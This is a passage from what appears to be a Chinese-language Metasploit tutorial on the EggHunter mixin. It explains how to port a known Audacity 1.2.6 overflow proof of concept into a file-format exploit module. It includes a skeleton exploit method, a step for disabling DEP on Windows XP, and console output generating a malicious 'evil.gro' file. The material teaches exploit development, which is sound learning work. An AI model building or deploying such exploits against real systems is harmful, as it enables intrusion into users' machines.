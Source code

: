 Success! We have Fuzzed a vulnerable server and built a custom Exploit Module using the amazing features offered by Metasploit.


### 使用 EggHunter Mixin

MSF的EggHunter Mixin是一个相当棒的模块，它在exploit开发中非常有用。如果你不熟悉这个概念，请查阅 https://en.wikipedia.org/wiki/Shellcode#Egg-hunt

在Audacity Audio Editor这一软件中有一个漏洞，它给了我一个执行 egghunter mixin的机会，使我们能够以较深程度利用这个mixin模块。

我们下面要编写一个msf文件格式的exploit module，我们不聚焦于渗透方法本身或背后的理论，而是主要研究egghunter mixin的实际用法。

注意，下面的例子使用 windows xp sp2作为目标，如果你要复现需要安装虚拟机，在sp3上实验时，可以在```c:\boot.ini```文件中使用```/noexecute=AlwaysOff```关闭DEP。

#### 安装我们的 egg-hunt
- 下载和安装有漏洞的 Audacity software on your XP SP2
- Audacity 1.2.6
- LADSPA Plugins
- 下载执行原始 PoC 参考 https://www.exploit-db.com/exploits/7634/

#### 移植Egghunter POC
让我们移植这个PoC为MSF文件格式的exploit module。我们使用现有module 模板，zinfaudioplayer221_pls.rb 就是一个不错的模板。

我们的骨干 exploit 应该看起来如下，注意我们的 buffer 在这里被生成：
```ruby
def exploit
    buff = Rex::Text.pattern_create(2000)
    print_status("Creating '#{datastore['FILENAME']}' file ...")
    file_create(buff)
end
``` 
上面使用了 Rex::Text.pattern_create(2000)来生成2000字节的独特字符串，能够用来在debugger中把它发送到我们的 windows中跟踪buffer位置。

一旦我们把PoC移植好了，我们可以生成 exploit 文件并把它发送到我们的 windows中。使用 ```generic/debug_trap``` payloads 来开始。

```
msf exploit(audacity) > show options

Module options:

Name       Current Setting Required Description
----       --------------- -------- -----------
FILENAME   evil.gro        yes      The file name.
OUTPUTPATH /var/www        yes      The location of the file.


Payload options (generic/debug_trap):

Name Current Setting Required Description
---- --------------- -------- -----------


Exploit target:

Id Name
-- ----
0 Audacity Universal 1.2


msf exploit(audacity) > exploit

[*] Creating 'evil.gro' file ...
[*] Generated output file /var/www/evil.gro
[*] Exploit completed, but no session was created.
msf exploit(audacity) >
```